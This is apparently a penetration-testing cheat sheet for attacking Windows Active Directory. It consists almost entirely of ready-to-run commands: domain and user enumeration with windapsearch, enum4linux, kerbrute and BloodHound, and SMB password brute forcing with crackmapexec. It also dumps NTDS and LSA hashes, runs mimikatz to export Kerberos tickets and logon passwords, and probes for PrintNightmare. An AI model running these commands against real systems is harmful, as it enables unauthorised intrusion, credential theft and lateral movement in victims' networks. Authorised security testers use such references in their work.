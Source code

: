 ## Domain Enumeration

### Basic Domain Details 
```bash
# windapsearch
python3 windapsearch.py -d pentesting.local -u pentesting\\ippsec -p Password12345 --dc-ip 192.168.1.50 -U -G --unconstrained-computers 

# ldapdomaindump
python3 ldapdomaindump.py --user pentesting\\ippsec -p Password12345 ldap://192.168.1.50:389 --no-json --no-grep -o data

# Impacket Scipts (https://www.secureauth.com/labs/open-source-tools/impacket/)
GetADUsers.py -dc-ip 192.168.235.134 ADLAB.local/bob:p@ssw0rD

# Enum4linux
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>

# Crackmapexec
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --no-bruteforce
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --shares
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --sessions
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --disks
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --loggedon-users
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --users
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --groups
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --local-groups
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --pass-pol
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> -M spider_plus

#smb bruteforce 
crackmapexec smb $IP -u users.txt -p pass.txt

# Extract hashes (Only work with Domain Controller)
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --ntds
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --lsa

# Load modules 
crackmapexec smb -L
crackmapexec smb 10.10.48.225 -u backup -p backup2517860 -M mimikatz

# RID Number
crackmapexec smb 192.168.0.5-192.168.0.10 -u <user> -p <password> --rid-brute

# [**PrintNightmare**](https://github.com/cube0x0/CVE-2021-1675)
impacket-rpcdump @active.thm
impacket-rpcdump @active.thm | egrep 'MS-RPRN|MS-PAR'
```
***

#### User enumeration
```bash
kerbrute -domain spookysec.local -dc-ip 10.10.29.111 -users userlist.txt


nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/usr/share/seclists/Usernames/Names/names.txt <IP>

```
***

#### BloodHound 
```bash

# Linux
# Gather data
python3 bloodhound.py -ns <ip> -d intelligence.htb -dc db.intelligence.htb -u <user> -p <pass> -c All

# Windows
.\SharpHound.exe --CollectionMethod All

# start bloodhound
sudo neo4j console
bloodhound
```
***

#### Mimikatz 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md
```bash
privilege::debug

# NTLM Hashes
lsadump::lsa /patch

# Overpass the hash
sekurlsa::tickets /export 
sekurlsa::logonpasswords
sekurlsa::tickets
kerberos::list /export
```

### Tools 
1. Powerview
	https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
	https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
	
	##### Basic Commands
	```bash
	Get-NetUser | select cn
	Get-NetGroup -GroupName *admin*
	Find-DomainShare -CheckShareAccess
	Get-NetComputer | select samaccountname, operatingsystem
	```
	
	##### More Commands
	https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

2. ADModule
	https://github.com/samratashok/ADModule
	https://github.com/jdhitsolutions/ADReportingTools
	
	